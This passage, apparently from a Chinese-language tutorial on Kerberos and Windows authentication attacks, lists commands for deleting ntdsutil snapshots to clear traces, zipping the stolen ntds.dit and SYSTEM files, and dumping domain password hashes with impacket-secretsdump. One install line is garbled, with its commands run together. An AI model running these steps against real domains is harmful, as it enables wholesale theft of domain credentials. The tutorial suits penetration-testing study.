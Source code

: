 

卸载、删除快照并检查痕迹

```powershell
ntdsutil snapshot "unmount <GUID>" "delete <GUID>" "List All" quit quit
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-a5396701fe1640108c9c1b5e2d85f6f2.png)



将目标文件打包传回主机

```powershell
7z.exe a <zip file directory> <ntds file directory> <SYSTEM file directory>
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-74f1d60d4f0e46f7bdd47b5302cc4125.png)



在kali中安装impacket

```bash
git clone https://github.com/CoreSecurity/impacket.gitcd impacketpython setup.py install
```



本地导出hash

```bash
impacket-secretsdump -system <SYSTEM FILE> -ntds <ntds.dit FILE> LOCAL

#下面可以将内容输出到文件
impacket-secretsdump -system <SYSTEM FILE> -ntds <ntds.dit FILE> LOCAL >> <TXT FILE> 
```
